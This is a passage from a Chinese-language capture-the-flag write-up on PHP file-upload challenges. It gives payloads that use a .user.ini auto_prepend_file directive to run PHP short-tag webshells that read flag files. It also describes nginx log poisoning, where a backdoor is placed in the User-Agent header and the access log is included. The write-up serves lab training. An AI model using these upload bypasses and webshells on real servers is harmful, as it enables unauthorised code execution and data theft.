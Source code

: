 使用反引号运算符 ` 的效果与函数 shell_exec()相同

```
.user.ini: auto_prepend_file=test.png

test.png: <?=system('tac ../fl*')?>
test.png: <? echo `tac /var/www/html/f*`?>
test.png: <?=`tac ../f*`?>
```

## web160

JS验证+user.ini+短标签+过滤

**文件包含默认日志**，日志记录UA头，UA头写后门代码，再问 /upload/index.php 即可得到 flag

```
.user.ini：auto_prepend_file=test.png
test.png：<?=include"/var/lo"."g/nginx/access.lo"."g"?>
```

<img src="图片\Snipaste_2023-02-01_11-12-17.png" alt="Snipaste_2023-02-01_11-12-17" style="zoom: 80%;" />

<img src="图片\Snipaste_2023-02-01_11-12-03.png" alt="Snipaste_2023-02-01_11-12-03" style="zoom:67%;" />
